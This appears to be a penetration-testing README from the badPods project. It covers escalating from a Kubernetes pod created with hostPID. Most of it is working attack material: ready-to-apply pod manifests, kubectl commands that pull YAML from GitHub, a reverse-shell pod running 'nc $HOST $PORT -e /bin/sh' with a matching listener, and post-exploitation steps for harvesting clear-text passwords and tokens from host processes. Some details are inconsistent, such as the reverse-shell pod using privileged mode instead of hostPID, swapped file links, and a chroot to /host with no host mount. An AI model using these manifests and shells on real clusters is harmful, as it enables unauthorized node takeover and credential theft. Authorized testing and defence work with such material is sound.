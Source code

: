 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  restartPolicy: Always
  ```
[pod-priv.yaml](pod-priv.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpid.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid/pod-hostpid.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: priv-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-hostpid-revshell.yaml](pod-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

